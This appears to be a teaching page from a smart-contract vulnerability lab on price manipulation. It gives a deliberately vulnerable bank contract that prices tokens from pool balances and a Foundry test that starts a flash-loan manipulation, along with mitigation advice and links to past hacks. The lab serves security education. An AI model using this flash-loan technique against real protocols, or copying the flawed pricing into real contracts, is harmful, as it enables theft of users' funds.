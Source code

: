 [Price_manipulation.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Price_manipulation.sol)

# Price manipulation

**Name:** Price manipulation

**Description:** Incorrect price calculation over balanceOf, getReverse may refer to a situation where the price of a token or asset is not accurately calculated based on the balanceOf function.

**Mitigation:**

Use a manipulation resistant oracle, chainlink, TWAP, etc.

**REF:**

https://twitter.com/1nf0s3cpt/status/1673948842738487296

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20221012-atk---flashloan-manipulate-price

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220807-egd-finance---flashloans--price-manipulation

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220428-deus-dao---flashloan--price-oracle-manipulation

**SimpleBank Contract:**

```jsx
contract SimpleBank {
    IERC20 public token; //USDA
    SimplePool public pool;
    IERC20 public payoutToken; //USDb

    constructor(address _token, address _pool, address _payoutToken) {
        token = IERC20(_token);
        pool = SimplePool(_pool);
        payoutToken = IERC20(_payoutToken);
    }

    function exchange(uint256 amount) public {
        require(
            token.transferFrom(msg.sender, address(this), amount),
            "Transfer failed"
        );
        uint256 price = pool.getPrice();
        require(price > 0, "Price cannot be zero");
        uint256 tokensToReceive = (amount * price) / (10 ** 18);
        require(
            payoutToken.transfer(msg.sender, tokensToReceive),
            "Payout transfer failed"
        );
    }
```

***\*How to Test:\****

forge test --contracts src/test/**Price_manipulation.sol** -vvvv

```jsx
// Function to test a potential price manipulation vulnerability
    function testPrice_Manipulation() public {
        // Transfers 9000 ether (using ether as a denomination here but it actually refers to the USDb token's smallest unit) to the SimpleBankContract from the USDbContract
        USDbContract.transfer(address(SimpleBankContract), 9000 ether);
        
        // Transfers 1000 ether worth of USDa tokens to the SimplePoolContract from the USDaContract
        USDaContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // Transfers 1000 ether worth of USDb tokens to the SimplePoolContract from the USDbContract
        USDbContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // Retrieves the current price of USDa in terms of USDb from the SimplePoolContract
        // Initially, the price is assumed to be 1 USDa : 1 USDb
        SimplePoolContract.getPrice(); // 1 USDa : 1 USDb

        // Logs the assumption that the price of USDa is 1 to 1 USDb because the pool has 1000 of each
        console.log(
            "There are 1000 USDa and USDb in the pool, so the price of USDa is 1 to 1 USDb."
        );
        
        // Emits a log with the current USDa conversion rate
        emit log_named_decimal_uint(
            "Current USDa convert rate",
            SimplePoolContract.getPrice(),
            18
        );
        
        // Logs the start of the price manipulation attempt
        console.log("Start price manipulation");
        
        // Logs a message about borrowing 500 USDb via a flash loan
        console.log("Borrow 500 USBa over floashloan");
        
        // Attempts to manipulate the price by using a flash loan to borrow 500 USDb
        // This could potentially distort the balance of USDa and USDb in the SimplePoolContract, affecting the price
        SimplePoolContract.flashLoan(500 ether, address(this), "0x0");
    }
```

**Red box: price manipulated.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6e72f9da-a310-4e12-a4df-724cfe5a4cd0%2FUntitled.png?table=block&id=4982af62-42fa-4aef-ac03-b62eb5514bc9&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)